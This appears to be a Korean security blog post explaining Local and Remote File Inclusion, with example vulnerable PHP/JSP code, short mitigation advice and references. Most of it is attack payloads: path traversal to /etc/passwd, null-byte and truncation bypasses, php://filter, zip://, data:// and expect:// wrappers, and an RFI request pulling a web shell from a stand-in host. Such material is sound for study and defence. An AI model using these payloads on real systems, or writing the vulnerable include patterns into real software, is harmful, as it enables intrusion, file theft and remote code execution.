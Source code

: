 ```yaml
---
layout: single
title: File Inclusion (LFI/RFI)
categories: Web-vuln
tag: [File Inclusion, LFI,RFI, web, web vulnerability, injection]
toc: true
author_profile: false
---
```


# File Inclusion 취약점이란?

> 해당 취약점은 응용 프로그램에서 File을 불러 올 때 include를 사용하여 코드내에 Built 하거나 동적으로 파일을 포함하는 로직이 구현되어있을경우 일반적으로 나타나며, 다른 Path Traversal 과 같은 타 취약저믈과 연계될 수 있다.

💡 **<u>이러한 File Inclusion은 Local File Inclusion(LFI)와 Remote File Inclusion(RFI)로 나뉜다.</u>** 
{: .notice--primary} 

```javascript
$file = $_GET['file'];

include('testdircetory/' . $file);
```

위와같은 코드는 File Inclusion에 취약한 코드라고 볼 수 있다. 위와 같이 구현되어 있을 경우<br>
아래와 같은 취약점으로 이어질 수 있다.

```
http://test.com/?file=../../../etc/passwd
```

# Local File Inclusion
로컬에 존재하는 파일, 현재 서버에 존재하고 있는 파일을 실행할 수 있으며, 웹 서버의 엑세스 로그, 패스워드파일 등 민감한 파일을 열거 할 수 있으며, 해당 서버에 공격자가 File Upload 취약점을 통해 웹 쉘을 올려놓았어도 이를 Include 시킬 수 있다.

```
GET /testlfi?path=file:///etc/passwd
```

# Remote File Inclusion
원격지에서 파일을 읽어들여 이를 inclusion 하는 취약점이며, 공격자가 본인의 서버에 웹쉘을 미리 생성하여 이를 Inclusion 할 수 있다.<br>
http, ftp uri형식으로 보통 가져온다.

```
GET /testrfi?lib=https://eval.com/webshell.php
```

# 공격 표면
file을 읽은 후 이를 가져올 수 있는 구간이면 해당 취약점을 의심해볼 수 있다. 절대경로 또는 상대경로를 통해 요청을 하였을 시 요청 경로가 삭제되지 않는다면 LFI는 발생한다.

## 언어별 취약 코드 로직

<div class="notice--primary" markdown="1">

- PHP

```php
<?php
if (isset($_GET['file'])) {
    include($_GET['file'] . '.php');
}
?>
```

- JSP

```jsp
<%
   String p = request.getParameter("p");
   @include file="<%="includes/" + p +".jsp"%>"
%>
```

<hr>

```
GET /testlfi?path=file:///etc/passwd
'''
or
'''
GET /testlfi?path=file=../../../../etc/passwd
```
위와같이 테스트해볼 수 있다. 
</div>

# Bypass - File Inclusion

## Null Byte injection

```php
<?php include($_GET['file'].".php"); ?>
```

위와같이 .php 확장자의 파일만 불러올 수 있게 되어있다면, null 바이트 문자를 통해 이를 우회할 수 있다.
> null을 가르키는 특수 바이트 이후의 모든 문자는 무시된다.

```
file=../../../../etc/passwd%00.php
```

## Path and Dot 
PHP 파일 이름은 4096 바이트로 제한되며, 해당 바이트보다 많은 바이트의 이름을 가지고 있다면 PHP는 파일 이름을 자르고 추가 문자를 버리게된다. 해당 방법은 오류가 발생되지 않고 정상적으로 PHP가 동작하게 된다. 이때 쓰레기 값으로 인코딩, DOUBLE 인코딩, 유니코드 인코딩 등의 값으로 채우면 된다.

```
GET /testlfi?path=file=../../../../etc/passwd...............
GET /testlfi?path=file=../../../../etc/passwd\.\.\.\.\.\.\.\.\.\.\.\.\.\.\.\
GET /testlfi?path=file=../../../../etc/passwd/././././././././././././././.
GET /testlfi?path=file=../../../../../../../../../../../../../etc/passwd
```

## PHP Filter
php의 filter은 로컬 파일 시스템에 access 하는데 사용되며, 특히 서버가 파일을 실행하지 못하게 하는 파일의 내용을 가져오는 데 악용할 수 있다.

```
http://[site]/index.php?page=php://filter/convert.base64-encode/resource=FILE
```

위와같이 보낼경우 FILE은 base64로 인코딩된 값을 받아오며, 이를 다시 디코딩하게되면 확인할 수 있다.

<div class="notice">
```php
php://filter/convert.base64-encode/resource=FILE
php://filter/convert.iconv.utf-8.utf-16/resource=FILE
php://filter/convert.base64-encode/resource=FILE
php://filter/zlib.deflate/convert.base64-encode/resource=FILE
rot13 사용도 생각해두자.
```
</div>

## PHP ZIP
php filter와 같이 php의 wraper 이며, zip파일을 통한 우회가 가능하다.
1. 원하고자 하는 php 파일 생성 ex)shell.php
2. zip 파일로 압축 ex)target.zip
3. zip 파일의 확장자를 jpg과 같이 변경하여 확장 유효성 검사를 우회 후 공격 대상 사이트에 업로드
4. /test/image/upload/ 에 저장되어있을 경우 url을 통해 zip wraper을 실행
5. zip:///test/image/upload/target.jpg%23shell.php

```
http://[site]/index.php?page=zip:///test/image/upload/target.jpg%23shell.php
```

## PHP Data Scheme
원하고자 하는 데이터(쉘코드)를 base64로 인코딩하여 data 스킴을 사용하여 우회할 수 있다.
> 원형 : data://text/plain;base64,BASE64_STR

```
http://[site]/index.php?page=data://text/plain;base64,PD9waHAgZWNobyBmaWxlX2dldF9jb250ZW50cygnL2V0Yy9wYXNzd2QnKTsgPz4=

// base64 -> <?php echo file_get_contents('/etc/passwd'); ?>
```

## PHP expect
해당 wrapper은 표준입출력 및 표준에러를 통해 프로세스에 대한 액세스를 제공한다. 시스템 명령을 가져올 수 있다.

```
GET /index.php?file=expect://id
GET /index.php?file=expect://ls
```

# 대응 방안
사용자이 입력값 검증을 통해 파일 이름의 크기범위에 대해 제한하며, 특수문자등 필터링이 적절히 이루어져야한다. 또한 URI 에 대한 화이트리스트 기반의 정책을 설정해야한다.

# Referance
- https://www.hahwul.com/cullinan/file-inclusion/
- https://en.wikipedia.org/wiki/File_inclusion_vulnerability#Local_file_inclusion
- https://owasp.org/www-project-web-security-testing-guide/v42/4-Web_Application_Security_Testing/07-Input_Validation_Testing/11.1-Testing_for_Local_File_Inclusion